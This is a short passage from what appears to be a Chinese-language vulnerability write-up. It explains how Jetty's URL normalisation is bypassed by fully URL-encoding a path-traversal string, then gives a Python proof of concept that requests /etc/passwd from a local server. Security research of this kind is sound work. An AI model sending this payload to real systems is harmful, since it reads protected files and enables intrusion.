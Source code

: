 ![img](./img/img.png)

当然直接用这个路径访问肯定是不行的, 因为 Jetty 会在 Servlet 处理之前对这种畸形 URL 进行一些标准化操作, 导致最终 Servlet 接收到的路径不是我们原来的路径, 解决方法是将路径完全 URL 编码后再发送

```
import requests

def urlencode(data):
    enc_data = ''
    for i in data:
        h = str(hex(ord(i))).replace('0x', '')
        if len(h) == 1:
            enc_data += '%0' + h.upper()
        else:
            enc_data += '%' + h.upper()
    return enc_data

payload = '///..//.//..///..//.././etc/passwd'

url = 'http://127.0.0.1:8081/' + urlencode(payload)
res = requests.get(url)
print(url)
print(res.text)
```

最终 PoC
